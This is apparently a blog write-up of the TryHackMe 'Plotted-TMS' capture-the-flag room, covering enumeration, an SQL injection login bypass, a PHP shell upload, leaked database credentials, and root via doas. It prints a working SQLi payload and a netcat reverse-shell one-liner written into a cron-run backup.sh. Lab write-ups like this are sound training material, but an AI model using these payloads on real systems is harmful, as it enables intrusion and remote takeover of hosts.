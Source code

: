 ```yaml
---
title: TryHackMe: Plotted-TMS Writeup
date: 2025-09-27 15:00:00 +/-0000
categories: [THM]
tags: [enumeration]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/6187c9220cd0ff0c5c3b29b9aa6252ea.png
---
```


After running nmap scan on the target, I got:

`nmap -A 10.10.194.9`

```bash
Nmap scan report for 10.10.194.9
Host is up (0.025s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

```

Upon visiting port `80/HTTP`, I got an apache server default page:

![thm-plotted-tms-home.png](assets/img/posts/thm-plotted-tms-home.png)
_Default Apache Server Page_

Then I decided to enumerate other pages on the webapp by using `dirsearch`:

`dirsearch -u http://10.10.194.9/`

```bash
[12:14:54] 200 -  452B  - /admin/
[12:15:19] 200 -   25B  - /passwd
```

The `/admin/` page had open directory enabled, and there was a file named `id_rsa`, which immediately made me think about the ssh port I had seen earlier on nmap.

However, it later turned out to be a base64 encoding of the text `Trust me it is not this easy..now get back to enumeration :D` 😂

The `/passwd` route returned a base64 encoded text, which decoded as `not this easy :D` 😆

I then ran dirsearch on port `445`:

`dirsearch -u http://10.10.194.9:445/`

```bash
[12:23:28] 200 -    4KB - /management/
```
Upon visiting the `/management/` route, I was greeted with a login page.

I tried a few SQLi payloads and `' or '1'='1'#` worked. I was then on the dashboard. 

Then I went onto the profile management page, and uploaded a php shell, and I was in. 

Upon visiting `initialize.php`, I saw database credentials:

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','/management/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"tms_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"Password@123");
if(!defined('DB_NAME')) define('DB_NAME',"tms_db");
?>
```

I used the credentials to explore the database, and found a users table which has 2 hashed passwords:

![thm-plotted-tms-hashes.png](assets/img/posts/thm-plotted-tms-hashes.png)
_Hashes.com lookup results_

I tried to use these credentials to my benefit, however, they didn't work anywhere. 

After a bit of exploring, I found that there was `user.txt` in user `plot_admin`'s home directory. 

Later, I found a `backup.sh` file in `/var/www/scripts`, and I could edit it. 

```bash
www-data@plotted:/var/www/scripts$ rm -rf backup.sh
rm -rf backup.sh
www-data@plotted:/var/www/scripts$
www-data@plotted:/var/www/scripts$ ls
ls

www-data@plotted:/var/www/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.39.101 4445 >/tmp/f" > backup.sh
<h -i 2>&1|nc 10.23.39.101 4445 >/tmp/f" > backup.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
cat backup.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.39.101 4445 >/tmp/f
www-data@plotted:/var/www/scripts$
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh
www-data@plotted:/var/www/scripts$ date
date
Sat Sep 27 12:44:03 UTC 2025
www-data@plotted:/var/www/scripts$
```

After listening on the other shell and sending the `date` command to check if a minute had passed, I got the response from the server and got access to the `plot_admin` admin account. I then cat'd the user.txt flag.

To get root.txt, I just used basic privesc techniques, and realised I could run `doas` as root, and I used [GTFOBins](https://gtfobins.github.io/) guide to echo root.txt file. 
